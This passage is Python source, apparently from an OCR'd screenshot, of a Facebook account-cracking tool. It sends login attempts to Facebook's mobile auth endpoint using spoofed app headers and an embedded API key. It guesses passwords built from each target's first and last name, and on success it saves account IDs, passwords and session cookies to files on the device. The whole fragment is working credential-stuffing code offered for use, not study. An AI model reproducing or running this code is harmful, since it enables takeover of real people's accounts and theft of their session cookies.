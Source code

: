 "meta_inf_fbmeta": "",
"advertiser_id": str(uuid.uuid4()),
"currently_logged_in_userid": "0",
"locale": "en_GB",
"client_country_code": "GB",
"method": "auth.login",
"fb_api_req_friendly_name": "authenticate",
"fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
"api_key": "882a8490361da98702bf97a021ddc14d"}
                headers = {'User-Agent': randBuildHHL(),
'Content-Type': 'application/x-www-form-urlencoded',
'Host': 'graph.facebook.com',
'X-FB-Net-HNI': str(random.randint(20000, 40000)),
'X-FB-SIM-HNI': str(random.randint(20000, 40000)),
'X-FB-Connection-Type': 'MOBILE.LTE',
'X-Tigon-Is-Retry': 'False',
'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62',
'x-fb-device-group': '5120',
'X-FB-Friendly-Name': 'ViewerReactionsMutation',
'X-FB-Request-Analytics-Tags': 'graphservice',
'X-FB-HTTP-Engine': 'Liger',
'X-FB-Client-IP': 'True',
'X-FB-Server-Cluster': 'True',
'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62',}
                q = session.post("https://b-graph.facebook.com/auth/login",data=data, headers=headers, allow_redirects=False).json()
                if 'session_key' in q:
                    ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"]);ssbb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-");cookie = f"sb={ssbb};{ckkk}"
                    print(f"\r{R} [SSB-OK] {sid} | {ps} {S}")
                    oks.append(sid)
                    open('/sdcard/SSB_OK_ids_M2.txt','a').write(sid+'|'+ps+'\n');open('/sdcard/SSB_iDs_COOKiEs_M2.txt','a').write(sid+'|'+ps+'|'+cookie+'\n')
                    break
                elif 'www.facebook.com' in q['error']['message']:
                    #  print(f"\r{A} [SSB-CP] {sid} | {ps} {S}")
                    cps.append(sid)
                    open('/sdcard/SSB_CP.txt','a').write(sid+'|'+ps+'\n')
                else:
                    continue
            loop+=1
        except requests.exceptions.ConnectionError:
            self.methodB(sid, name, ps)

    def methodD(self, sid, name, psw):
        global oks,cps,loop
        sys.stdout.write(f"\r {S}[SSB] {loop} | M4 OK/CP {len(oks)}/{len(cps)} | {S}{'{:.0%}'.format(loop/float(len(self.id)))}{S}")
        sys.stdout.flush()
        fs = name.split(' ')[0]
        try:
            ls = name.split(' ')[1]
        except:
            ls = fs
        try:
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                session=requests.Session()
                sua = random.choice(sagent)